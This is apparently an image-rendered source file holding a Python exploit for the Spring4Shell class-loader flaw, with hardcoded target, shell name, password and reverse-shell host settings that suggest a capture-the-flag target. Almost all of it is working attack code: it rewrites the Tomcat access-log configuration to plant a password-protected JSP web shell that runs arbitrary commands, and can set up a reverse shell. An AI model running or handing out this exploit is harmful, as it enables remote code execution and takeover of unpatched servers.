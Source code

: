 ```python
def exploit(url, command, shell_name, password='1337'):
    print(f"418 - Trying to exploit {url}")
    headers = {"suffix": "%>//",
               "c1": "Runtime",
               "c2": "<%",
               "DNT": "1",
               "Content-Type": "application/x-www-form-urlencoded",
               "Cookie": "miduncookie" # TODO cookie
               }
    # https://github.com/craig/SpringCore0day original exploit
    data = f"class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22{url_encode(password)}%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20=%20%25%7Bc1%7Di.getRuntime().exec({url_encode(command)}).getInputStream();%20int%20a%20=%20-1;%20byte%5B%5D%20b%20=%20new%20byte%5B2048%5D;%20while((a=in.read(b))!=-1)%7B%20out.println(new%20String(b));%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix={shell_name}&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="

    go = requests.post(url, headers=headers, data=data, timeout=15, allow_redirects=False, verify=False)
    shellurl = urljoin(url, f'{shell_name}.jsp')
    shellgo = requests.get(shellurl, timeout=40, allow_redirects=False, verify=False)
    if shellgo.status_code == 200:
        print(f"{shellgo.status_code} - Successfuly exploited, access in: {shellurl}?pwd={url_encode(password)}")
    else:
        print(f"{shellgo.status_code} - {shellurl} is'n work :(")


def main():
    # parser = argparse.ArgumentParser(description='')
    # parser.add_argument('-f', '--file',help='File with a list of URLs (reverse-shell dont works here)', required=False)
    # parser.add_argument('-u', '--url',help='Just one target URL', required=False)
    # parser.add_argument('-c', '--command',help='Command to execute', required=False)
    # parser.add_argument('--host', help='Host to connect if you want a reverse shell', required=False)
    # parser.add_argument('--port', help='Port to connect if you want a reverse shell', required=False)
    # parser.add_argument('--shell_name', help='Name of the shell', required=False, default="b1g0uS")
    # parser.add_argument('--password', help='Password for shell', required=False, default='1337')
    # args = parser.parse_args()

    file_arg = "sumy123123123123123123123"
    dir_arg = "webapps/ROOT"
    url_arg = "https://spring-ctfd.dun.mi.com/"
    command_arg = None
    shell_name_arg = "sumy_123"
    password_arg = "1423"
    host_arg = '10.167.90.69'
    port_arg = '3000'

    if url_arg:
        if command_arg:
            exploit(url_arg, make_runtime_payload(command_arg), shell_name_arg, password=password_arg)
        elif host_arg and port_arg:
            exploit(url_arg, make_runtime_payload(None, host_arg, port_arg), shell_name_arg, password=password_arg)


```
